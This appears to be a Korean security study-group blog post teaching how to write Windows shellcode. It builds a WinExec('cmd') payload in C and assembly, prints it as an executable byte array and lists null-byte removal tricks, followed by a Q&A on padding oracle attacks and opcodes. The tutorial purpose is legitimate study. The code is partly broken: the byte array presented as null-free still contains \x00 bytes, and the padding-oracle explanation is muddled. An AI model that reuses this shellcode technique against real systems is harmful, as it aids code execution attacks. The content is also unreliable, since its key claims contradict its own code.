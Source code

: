 ```yaml
---
layout: post
title: SUA 시스템 해킹 스터디
---
```


### 170822 3주차

이제 본격적으로 윈도우 시스템 해킹을 다룰 것이다. 저번 Exploit 예제에서 봤듯이 쉘코드는 공격이 성공한 후 실행을 시킬 실질적인 코드를 말한다.

<br>
## 1. 쉘코드 작성 원리

공격이 성공하고 원하는 코드를 실행시키려면 미리 만들어둔 기계어 코드가 필요하다. 공격이 성공하면, 프로그램 실행 흐름을 바꿔서 공격자가 원하는 특정 주소로 이동할 수 있다. CPU는 흐름이 바뀐 메모리에서 직접 코드를 읽으려 하므로 CPU가 해석할 수 있는 기계어 코드가 필요하다.

쉘코드를 작성하기 위한 기본 지식은 C언어, 어셈블리어, 디버깅 스킬이면 충분하다. 간단하게 하나 작성해 보자.

**shellcode_cmd.cpp**

```c
#include "stdafx.h"
#include "windows.h"

int _tmain(int argc, TCHAR* argv[])
{
  char cmd[4] = {'c', 'm', 'd', '₩x0'};
  WinExec(cmd, SW_SHOW);
  ExitProcess(1);
}
```
> cmd 명령을 실행하는 프로그램을 작성했다. 여기서 명령을 실행하는 함수는 WinExec()다.

디스어셈블리로 쉘코드 프로그램의 어셈블리어를 추출한 후, 이를 어셈블리어로 다시 작성하자.

**shellcode_cmd2.cpp**

```c
asm {
	// cmd
	mov  byte ptr[ebp - 4], 63h  // 'c'
	mov  byte ptr[ebp - 3], 6Dh  // 'm'
	mov  byte ptr[ebp - 2], 64h  // 'd'
	mov  byte ptr[ebp - 1], 0    // '₩x0'
	// call WindExec('cmd', SW_SHOW)
	push 5                   // SW_SHOW
	lea  eax, [ebp - 4       // eax에 'cmd' 문자열 저장
	push eax                 // 스택에 'cmd' 문자열 주소 push
	mov  eax, 0x76b32b00     // eax에 WinExec 함수 주소 저장
	call eax                 // WinExec 함수 실행
	// call ExitProcess(1)
	push 1
	mov  eax, 0x76af3cb0
	call eax
};
```
> WinExec() 함수 부분을 보면, 인자값 2개를 역순으로 스택에 PUSH한 뒤, 함수 주소를 CALL 명령으로 호출한다. 저기서 0x76b32b00라는 함수 주소는 간단한 스크립트로 가져올 수 있다.

> 함수의 주소값은 DLL이 로드되는 주소에 따라 달라지며, 윈도우에서 부팅할 때마다 kernel32.dll이 로드되는 주소가 바뀐다. 그래서, 현재 시스템에서 직접 주소값을 꼭 확인하자.

위 예제 `shellcode_cmd.cpp`와 `shellcode_cmd2.cpp` 둘 다 컴파일 후 실행하면 같은 cmd 명령이 실행된다. 하지만, 쉘코드 중간에 널바이트인 0x00이 들어가 있어서 C언어 문자열 복사 계열 함수에서 발생하는 취약점에 사용할 수 없다. 공격할 때, 쉘코드가 모두 복사되지 않고 중간에 끊어지면 공격에 실패하므로 공격의 안정성을 위해 널바이트를 제거하자.

<br>
## 2. 널바이트 제거

널바이트를 제거하는 여러 방법이 있다. 위 예제의 쉘코드에서는 cmd 문자열 뒤에 '0'을 넣는 과정에서 널바이트가 발생했다. 이를 가장 쉽게 해결하려면, '0'을 직접 쓰는 대신 레지스터나 메모리를 0으로 만든 후 해당 레지스터를 이용하며 된다. 풀이는 다음과 같다.

**shellcode_cmd3.cpp**

```c
asm {
		// cmd
		xor   ebx, ebx
		mov   [ebp-4], ebx
		mov   byte ptr[ebp - 4], 63h
		mov   byte ptr[ebp - 3], 6Dh
		mov   byte ptr[ebp - 2], 64h
		//mov byte ptr[ebp - 1], 0
		// call WindExec('cmd', SW_SHOW)
		push  5
		lea   eax, [ebp - 4]
		push  eax
		mov   eax, 0x76b32b00
		call  eax
		// call ExitProcess(1)
		push  1
		mov   eax, 0x76af3cb0
		call  eax
	};
```
> XOR을 통해 ebx 레지스터를 0으로 초기화하고, ebx 레지스터를 ebp-4의 주소에 넣어줘서 기존의 `mov byte ptr[ebp-1], 0` 코드를 대체할 수 있다.

널바이트를 제거한 후, 변경한 코드를 컴파일하여 쉘코드를 확인하면 아래와 같다.

```c
#include "stdafx.h"
#include "windows.h"

char shellcode[] = "\xc6\x45\xfc\x63"
                   "\xc6\x45\xfd\x6d"
                   "\xc6\x45\xfe\x64"
                   "\xc6\x45\xff\x00"
                   "\x6a\x05"
                   "\x8d\x45\xfc"
                   "\x50"
                   "\xb8\x00\x2b\xb3\x76"
                   "\xff\xd0"
                   "\x6a\x01"
                   "\xb8\xb0\x3c\xaf\x76"
                   "\xff\xd0";

int _tmain(int argc, TCHAR* argv[])
{
  int * shell = (int*)shellcode;
  asm {
    jmp shell;
  }
}
```
> 쉘코드에 널바이트가 없어진 걸 확인할 수 있다. 컴파일 후 실행하면 동일한 cmd 명령이 실행된다.

널바이트를 제거하는 다른 방법들은 다음과 같다.

- **널바이트가 들어가지 않은 명령어로 대체**
  - 예를 들어, `mov eax, 12h`을 `push 12h, pop eax`로 대체할 수 있다.

- **32비트 레지스터가 아닌 16비트, 8비트 레지스터 사용**
  - 32비트 레지스터는 상황에 따라 16비트, 8비트로도 사용할 수 있다. 예를 들어, 0x12를 표현할 때, 32비트 레지스터는 0x00000012로 써야하지만, 8비트로 표현하면 0x12가 된다. (*mov eax, 12h -> mov al, 12h*)
- **ADD, SUB 등의 연산 명령 사용**
  - 위 방법과 마찬가지로 ADD와 SUB 등 연산 명령을 사용할 수 있다. 예를 들어, `mov eax, 12h`을 `add eax, 12h`로 바꿀 수 있다.

이 외에도 다양한 방법들이 있으니 직접 연구해 보자.

<br>
## [질문 내용 정리]

- **Padding Oracle Attack 의미?**

암호학에서 블록 암호화할 때, 평문 데이터를 고정된 크기의 블록으로 채우고, 블록의 나머지 부분을 패딩(*Padding*)으로 채운다. 만약에 평문 데이터가 블록 크기의 배수일 경우, 패딩으로 채운 빈 블록이 생성된다. 평문 데이터의 마지막 블록이 1(*0x01*) 같이 숫자 또는 문자열이면 패딩(*0x13, 0x03, 0x18 등*)과 구분하기 어렵기 때문이다. 평문 데이터가 특정 블록 크기 만큼 채워져 있지 않으면 그 블록까지만 패딩으로 채워진다. 패딩 오라클 공격(*Padding Oracle Attack*)은 이 패딩이 올바르게 채워져 있는 지 여부에 따라 오라클(*여기서는 서버를 의미함. 응답에 대한 판독 절차 수행하는 쪽*)의 응답이 달라져서 발생하는 공격이다. 이 공격은 블록 암호화를 사용하는 CBC(*Cipher Block Chaining*) 모드 방식 암호화에서 주로 발생하며, 암호문을 오라클로 보냈을 때 오라클이 복호화하면서 올바른 패딩인지 아닌지'만' 확인해 준다는 것에서 착안한 공격이다. 8바이트 블록 기준, 패딩이 1~8개일 때까지의 경우를 모두 생각해서 IV(*Initialization Vector*)를 대입하고, 응답을 확인하면서 공격 벡터를 늘려가면 Intermediary Value를 알 수 있다. 결과적으로, Intermediary Value 값을 알면 '평문 - 어떤 암호 알고리즘 - (1차 암호문, Intermediary Value) - IV와 XOR - 최종 암호문' 과정에서 평문에 사용한 어떤 암호 알고리즘을 추측할 수 있으며, 평문 값도 알 수 있게 된다.

- **Opcode, Bytecode?**

프로세서가 메모리부터 읽고 명령을 수행할 때 필요한 일련의 값들을 기계어 코드라고 부르며 디스어셈블러, 디버깅 프로그램에서 표시된다. 이 기계어 코드 중 프로세서에 의해 바로 실행하는 게 아닌 인터프리터 기반(*자바 or CLR*) 소프트웨어에서 사용될 때 Bytecode(*바이트 코드*)라고 불린다. Opcode(*Operation Code, 명령 코드*)는 가상 또는 실제 시스템에서 어떤 동작을 수행하는 명령어를 알려주는 숫자들이다. 이 명령들은 메모리 상에 16진수 숫자로 표시되며, 예를 들어 0x1F38520A에서 0x1F가 "ADD"를 뜻할 때, 0x1F는 "ADD" 명령어의 Opcode라고 부른다.

- **Opcode(코드 바이트로 표기)를 추출해서 C언어로 Shellcode 작성할 때 깔끔(?)하게 추출하는 방법?**

이럴 때 기본적으로 사용할 수 있는 건 IDE, 디스어셈블러, objdump 외 다른 변환 툴이다. ex) objdump -D -j .data test.o, ex) gdb에서 디스어셈블 후, x/bx + 엔터를 치면 어셈블리어 명령어가 하나씩 16진수로 표기됨?

- **널바이트 제거 시 함수 주소값에 널바이트가 있으면?**

주소에 있는 널바이트는 바이트 단위로 주소를 저장하면 해결
